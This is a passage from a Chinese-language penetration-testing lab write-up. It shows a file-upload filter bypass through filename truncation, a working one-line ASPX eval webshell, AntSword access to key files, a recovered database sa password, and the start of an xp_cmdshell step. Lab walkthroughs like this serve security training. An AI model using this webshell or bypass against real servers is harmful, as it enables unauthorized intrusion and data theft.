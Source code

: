 ## 4. getshell

登录网站后获取到 key1

![image.png500](https://img.ghostliner.top/UP3Quu.png)

发现文件上传页面

![image.png500](https://img.ghostliner.top/HTwzx0.png)

发现文件上传记录，获得提示：

- **注意：文件名过长会被系统截取包括系统时间在内的前 32 位字符作为文件名，请上传的文件名称不要过长，为您带来的不便，敬请谅解。**

**利用思路**：上传八位字符文件名+aspx 后缀+txt 后缀，上传后 `.txt` 后缀被截断，保留 `.aspx`

![image.png500](https://img.ghostliner.top/sxZLGV.png)

访问图片文件报错，获取到上传文件路径 `/upfile/affix/`

![image.png](https://img.ghostliner.top/8A4Fow.png)

访问 `636625082296562500-bbbbbbbb.aspx` 成功无内容

上传一句话木马，文件名：`12345678.aspx.txt`

```asp
<%@ Page Language="Jscript"%>
<%Response.Write(eval(Request.Item["z"],"unsafe"));%>
```

上传成功，查看记录

![image.png500](https://img.ghostliner.top/nfQPBF.png)

蚁剑连接成功，发现 `key1key.key`、`web.config.bak.2017-12-12` 文件

![image.png500](https://img.ghostliner.top/WtAvDl.png)

获取到 key2

![image.png500](https://img.ghostliner.top/anTE4t.png)

获取到 sa 账号密码： cisp-pte@sa

![image.png](https://img.ghostliner.top/GaVGKg.png)

webshell 查看权限，发现权限低

![image.png500](https://img.ghostliner.top/Jkrwz3.png)

## 5. xp_cmdshell

使用 sa 连接数据库

![image.png500](https://img.ghostliner.top/i5E17D.png)
